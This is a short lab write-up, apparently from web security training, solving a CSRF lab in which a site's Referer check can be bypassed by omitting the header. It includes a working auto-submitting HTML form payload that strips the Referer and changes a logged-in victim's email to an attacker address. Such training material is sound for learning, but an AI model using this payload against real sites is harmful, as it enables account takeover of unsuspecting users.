 # CSRF where Referer validation depends on header being present
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis 
There is no `csrf` token (or any other `crsf` security measure) in `/my-account/change-email`. In order to send valid request to change email, `Referer` header have to have correct domain. Alternatively, lack of `Referer` header in request results in successluf request to change email.
|![](Images/image-53.png)|
|:--:| 
| *Test of change email functionality* |
|![](Images/image-54.png)|
| *Modified Referer header - header is validated in change email reqeust* |
|![](Images/image-54.png)|
| *Successful request without referer header* |

## Exploitation
To exploit CSRF vulnerability, attacker can make browser skip `Referer` header bypassing validation of this header.

Exploit server configuration:
```html
<meta name="referrer" content="never"> 

<form method="POST" action="https://<id>.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@attack.attack">
</form>

<script>
        document.forms[0].submit();
</script>
```

|![](Images/image-56.png)|
|:--:| 
| *Exploit server configuration* |

